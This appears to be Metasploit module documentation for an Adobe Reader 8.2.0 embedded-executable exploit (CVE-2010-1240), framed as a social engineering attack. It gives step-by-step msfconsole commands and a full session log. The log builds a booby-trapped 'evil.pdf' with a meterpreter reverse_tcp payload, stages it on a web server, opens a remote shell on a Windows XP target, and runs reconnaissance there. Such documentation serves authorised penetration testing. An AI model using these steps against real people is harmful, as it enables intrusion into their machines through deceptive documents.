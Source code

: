 ## Vulnerable Application

This module embeds a Metasploit payload into an existing PDF file. The resulting PDF can be sent to a target as part of a social engineering attack.

Link to vulnerable software (OldVersion)[http://www.oldversion.com/windows/download/acrobat-reader-8-2-0]

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/adobe_pdf_embedded_exe`
   4. Do: `set payload [windows/meterpreter/reverse_tcp]`
   5. Do: `set LHOST [IP]`
   6. Do: `exploit`
   7. Do: `use [exploit/multi/handler]`
   8. Do: `set LHOST [IP]`
   9. Do: `exploit`
   10. Do: `Open PDF on target machine with vulnerable software`

## Scenarios

### A run on Adobe Reader 8.2.0 and Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > exploit

    [*] Reading in '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
    [*] Parsing '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
    [*] Using 'windows/meterpreter/reverse_tcp' as payload...
    [+] Parsing Successful. Creating 'evil.pdf' file...
    [+] evil.pdf stored at /root/.msf4/local/evil.pdf
  msf5 exploit(windows/fileformat/adobe_pdf_embedded_exe) > cp /root/.msf4/local/evil.pdf /var/www/html/evil.pdf
    [*] exec: cp /root/.msf4/local/evil.pdf /var/www/html/evil.pdf

  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf5 exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1121) at 2019-12-09 14:17:10 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

      Installed Applications
      ======================

      Name                Version
      ----                -------
      Adobe Reader 8.2.0  8.2.0



      [+] Results stored in: /root/.msf4/loot/20191209141758_default_192.168.1.5_host.application_783490.txt
      ```
